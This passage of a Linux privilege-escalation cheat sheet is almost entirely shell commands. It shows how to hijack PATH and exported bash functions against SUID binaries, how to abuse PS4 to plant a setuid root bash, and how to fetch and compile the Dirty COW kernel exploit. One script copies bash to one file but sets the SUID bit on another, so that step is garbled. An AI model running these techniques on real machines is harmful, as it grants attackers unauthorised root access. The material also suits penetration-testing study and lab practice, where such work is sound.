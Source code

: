 ```bash
```
### Environment Variables(2) ✡️
```bash
/usr/local/bin/suid-env
strings /usr/local/bin/suid-env # End file is 'service apache2 start'
nano /tmp/service
-------------------
#!/bin/bash
cp /bin/bash /tmp/rootshell
chmod +s /tmp/mobin
-------------------
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```
### Environment Variables(3) ✡️
```bash
/usr/local/bin/suid-env
strings /usr/local/bin/suid-env # service apache2 start
nano /tmp/service.c
-------------------
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
-------------------
gcc /tmp/service.c -o /tmp/service 
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```
### Abusing Shell Features ✡️
```bash
/bin/bash --version
```
#### If " 'Bash versions' < 4.2-048 " 🔆
```bash
strings /usr/local/bin/suid-env2 # End file is '/usr/sbin/service apache2 start'
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```
#### If " 'Bash versions' > 4.4 " 🔆
```bash 
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```
## Kernel Exploits ✅
### Example "Dirty COW" ✡️
```bash
bash linux-exploit-suggester.sh # target machine
perl linux-exploit-suggester-2.pl # target machine

searchsploit --cve CVE-2016-5195 # our kali
searchsploit -m linux/local/40838.c # our kali
# We transfer "40838.c" file to the target system

gcc /tmp/40838.c -pthread -o /tmp/exploit # target machine
./exploit # target machine
```
## NFS ✅
```bash
cat /etc/exports
# From the output, notice that (no_root_squash) option is defined for the "/tmp" export.
```